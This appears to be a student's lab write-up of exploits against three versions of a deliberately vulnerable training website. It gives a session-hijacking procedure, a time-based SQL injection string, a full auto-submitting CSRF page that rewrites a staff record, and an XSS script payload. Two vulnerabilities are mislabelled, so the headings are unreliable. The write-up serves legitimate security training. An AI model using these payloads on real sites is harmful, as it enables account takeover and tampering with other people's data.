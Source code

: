 # Week 8 Project - Pentesting Live Targets

Time spent: 6 hours

> Objective: Exploit vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

- Username Enumeration
- Insecure Direct Object Reference (IDOR)
- SQL Injection (SQLi)
- Cross-Site Scripting (XSS)
- Cross-Site Request Forgery (CSRF)
- Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)


## Blue:
### Vulnerability 1: Session Hijacking/Fixation

#### Steps to recreate:
- In one browser (Chrome), we logged in normally but then copied the current PHPSESSIONID by going [here](https://104.198.208.81/green/public/hacktools/change_session_id.php). 
- Use another browser (Safari in this case) which was NOT logged in and change the [PHPSESSIONID](https://104.198.208.81/green/public/hacktools/change_session_id.php) we got from Chrome.
- It will show that it was automatically logged into the system in the Safari without entering the password and username.

![](blue-exploit-1.gif)

### Vulnerability 2: SQL Injection

#### Steps to recreate:
- Go to the salesperson tab
- Select a random salesperson and add this at the end of the url ` ' OR SLEEP(5)=0--'  `

![](blue-exploit-2.gif)


## Red:
### Vulnerability 1: User Enumeration 

#### Steps to recreate:
- Log in and then go to sales person's page
- Click into any salesperson to get their ID and change it to 11 or 12; these information shouldn't be public to everyone
- Log out and go to the public site
- Click into any salesperson and change their ID to 11 or 12 and you will get that information when public user shouldn't supposed to

![](red-exploit-1.gif)

### Vulnerability 2: Cross-Site Request Forgery (CSRF)

#### Steps to recreate:
- Create a html page with the code below
- User submit a feedback with a url that links to the html page
- Admin log into site and visit the attached feedback url
- By visiting the page, it will attack and change salesperson with the ID 5's info 

```
<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=5" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="HACKED" />
      	<input type="text" name="last_name" value="WAS HACKED" />
      	<input type="text" name="phone" value="111-111-2222" />
      	<input type="text" name="email" value="HACKED@HACKED.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html> 
```

![](red-exploit-2.gif)


## Green:
### Vulnerability 1: Cross-Site Scripting (XSS)

#### Steps to recreate:
- Go to Contact section and submit a feedback with `<script>alert('XSS ALERT');</script>`
- Log into admin and once you click the feedback section, it will trigger a popup

![](green-exploit-1.gif)

### Vulnerability 2: Cross-Site Scripting (XSS)

#### Steps to recreate:

- Go to log in page, if you enter the correct username, but inccorect password, `Log in was unsuccessful` will be bolded
- If you enter an invalid username and incorrect password, it wouldn't be bolded.

![](green-exploit-2.gif)

